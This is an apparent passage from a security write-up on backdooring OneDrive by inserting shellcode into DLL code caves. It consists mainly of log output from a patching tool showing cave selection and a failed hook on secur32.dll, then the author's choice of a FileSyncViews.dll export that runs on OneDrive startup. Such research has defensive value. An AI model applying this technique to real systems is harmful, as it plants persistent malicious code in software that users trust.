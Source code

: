 ```bash
2023-12-22 14:22:07,INFO,dll_loader_single_cave.py,payload_stub len: 0x184, 388
2023-12-22 14:22:07,INFO,dll_loader_single_cave.py,ResumeEXE stub len: 1
2023-12-22 14:22:07,INFO,dll_loader_single_cave.py,slack_space_size: hex: 0xf9, 249
2023-12-22 14:22:07,INFO,dll_loader_single_cave.py,Text slack space is large enough
2023-12-22 14:22:07,INFO,core.py,[*] Looking for caves that will fit the minimum shellcode length of 460
2023-12-22 14:22:07,INFO,core.py,[*] All caves lengths: 460
2023-12-22 14:22:07,INFO,core.py,[*] Attempting PE File Automatic Patching
2023-12-22 14:22:07,INFO,core.py,            [!] Selected: 4; Section Name: b'.rdata1\x00';             Cave begin: 0x7529;             End: 0x76f9;             Cave Size: 464;             Payload Size: 460             SectionFlags: 0xc0000040
2023-12-22 14:22:07,INFO,dll_core.py,Found Export: 29, [22187, 18091, b'GetUserNameExW']
2023-12-22 14:22:07,INFO,dll_core.py,Export Info: [22164, 15820, 18068, True]
2023-12-22 14:22:07,INFO,dll_core.py,Export Type: True
2023-12-22 14:22:07,ERROR,dll_core.py,Your selected exports,GetUserNameExW, were not Found
Here's the APIs is in the DLL available for hooking:
[*]Exports that can be used: AcceptSecurityContext,AcquireCredentialsHandleA,AcquireCredentialsHandleW,GetComputerObjectNameW,GetSecurityUserInfo,SecpFreeMemory,SecpTranslateName,SecpTranslateNameEx,TranslateNameA,TranslateNameW,

[!]Exports that cannot be used as they are forwarded Exports: AddCredentialsA,AddCredentialsW,AddSecurityPackageA,AddSecurityPackageW,ApplyControlToken,ChangeAccountPasswordA,ChangeAccountPasswordW,CloseLsaPerformanceData,CollectLsaPerformanceData,CompleteAuthToken,CredMarshalTargetInfo,CredUnmarshalTargetInfo,DecryptMessage,DeleteSecurityContext,DeleteSecurityPackageA,DeleteSecurityPackageW,EncryptMessage,EnumerateSecurityPackagesA,EnumerateSecurityPackagesW,ExportSecurityContext,FreeContextBuffer,FreeCredentialsHandle,GetComputerObjectNameA,GetUserNameExA,GetUserNameExW,ImpersonateSecurityContext,ImportSecurityContextA,ImportSecurityContextW,InitSecurityInterfaceA,InitSecurityInterfaceW,InitializeSecurityContextA,InitializeSecurityContextW,LsaCallAuthenticationPackage,LsaConnectUntrusted,LsaDeregisterLogonProcess,LsaEnumerateLogonSessions,LsaFreeReturnBuffer,LsaGetLogonSessionData,LsaLogonUser,LsaLookupAuthenticationPackage,LsaRegisterLogonProcess,LsaRegisterPolicyChangeNotification,LsaUnregisterPolicyChangeNotification,MakeSignature,OpenLsaPerformanceData,QueryContextAttributesA,QueryContextAttributesW,QueryCredentialsAttributesA,QueryCredentialsAttributesW,QuerySecurityContextToken,QuerySecurityPackageInfoA,QuerySecurityPackageInfoW,RevertSecurityContext,SaslAcceptSecurityContext,SaslEnumerateProfilesA,SaslEnumerateProfilesW,SaslGetContextOption,SaslGetProfilePackageA,SaslGetProfilePackageW,SaslIdentifyPackageA,SaslIdentifyPackageW,SaslInitializeSecurityContextA,SaslInitializeSecurityContextW,SaslSetContextOption,SealMessage,SeciAllocateAndSetCallFlags,SeciAllocateAndSetIPAddress,SeciFreeCallContext,SetContextAttributesA,SetContextAttributesW,SetCredentialsAttributesA,SetCredentialsAttributesW,SspiCompareAuthIdentities,SspiCopyAuthIdentity,SspiDecryptAuthIdentity,SspiEncodeAuthIdentityAsStrings,SspiEncodeStringsAsAuthIdentity,SspiEncryptAuthIdentity,SspiExcludePackage,SspiFreeAuthIdentity,SspiGetTargetHostName,SspiIsAuthIdentityEncrypted,SspiLocalFree,SspiMarshalAuthIdentity,SspiPrepareForCredRead,SspiPrepareForCredWrite,SspiUnmarshalAuthIdentity,SspiValidateAuthIdentity,SspiZeroAuthIdentity,UnsealMessage,VerifySignature,

2023-12-22 14:22:07,ERROR,backdoor.py,[!] Patching Failed

```

However, hooking the exports that are available in the secur32.dll will not result in code execution as they are not called by OneDrive or its other imported DLLs.

After some testing I found that the FileSyncViews.dll with the `StartQtApp@QtViews@@YAXAEAHPEAVIResourceProvider@@PEAVICrossPlatformWindowManager@@@Z` export api to be a good candidate. This export is not forwarded and is executed on OneDrive startup.
